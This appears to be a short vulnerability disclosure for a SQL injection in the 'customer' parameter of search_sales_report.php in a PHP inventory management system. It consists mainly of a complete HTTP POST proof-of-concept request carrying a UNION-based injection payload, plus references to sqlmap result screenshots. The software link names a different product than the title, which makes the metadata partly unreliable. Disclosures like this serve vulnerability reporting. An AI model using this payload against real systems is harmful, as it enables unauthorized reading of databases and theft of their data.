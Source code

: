 ### Exploit Free and Open Source inventory management system - SQLi
### Date: 2024-02/23
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html
### Version: 1.0
### Tested on: MacOs13.5 + phpstudy

# /app/ajax/search_sales_report.php（SQL injections）
/app/ajax/search_sales_report.php SQL injection exists for parameter customer

### Sample request POC #1

```
POST /app/ajax/search_sales_report.php HTTP/1.1
Host: 127.0.0.1:8889
Content-Length: 43
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8889
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8889/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d2ms7dmo84iasdvoq0rhinhrl2
Connection: close

customer=-9350 UNION ALL SELECT 9630,9630,9630,9630,CONCAT(0x717a626b71,0x764248434c67444f4a7050646d6268436f486c7456587348744242525a66715147646b6369744a6c,0x717a767a71),9630,9630,9630,9630,9630,9630,9630,9630,9630#&issuedate=1-100
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708927078851.jpg "Free and Open Source inventory management system")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1708927196358.jpg "Free and Open Source inventory management system")
